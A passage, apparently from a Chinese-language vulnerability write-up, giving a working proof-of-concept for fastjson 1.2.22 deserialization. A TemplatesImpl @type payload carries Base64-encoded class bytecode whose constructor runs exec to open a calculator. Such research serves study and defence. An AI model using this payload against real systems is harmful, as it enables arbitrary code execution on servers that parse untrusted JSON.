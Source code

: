 ```
    }
} 
```

其中的构造方法是用 exec 弹个计算器。看下 poc，vulApp1.java：

```
package ka1n4t.poc;

import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class vulApp1 {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }

        String result = Base64.encodeBase64String(bos.toByteArray());

        return result;
    }

    public static void bad_method() {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
        String evil_code = readClass(evil_path);

        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
    }

    public static void main(String args[]) {
        bad_method();
    }

} 
```
